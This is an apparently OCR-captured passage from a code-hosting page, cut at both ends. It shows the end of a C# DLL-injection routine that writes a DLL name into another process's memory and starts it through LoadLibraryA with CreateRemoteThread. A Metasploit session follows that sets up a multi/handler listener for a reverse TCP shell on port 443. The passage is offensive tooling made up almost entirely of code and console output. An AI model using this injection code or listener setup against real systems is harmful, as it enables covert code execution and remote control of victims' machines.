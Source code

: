 ```csharp
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);

        }

    }

}
```

```bash
❯ msfconsole
Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it 
with setg RHOSTS x.x.x.x
                                                  
               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:                                
                                :::::::+:
                      Metasploit

       =[ metasploit v6.4.5-dev                           ]
+ -- --=[ 2413 exploits - 1242 auxiliary - 423 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost eth0
lhost => eth0
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
```
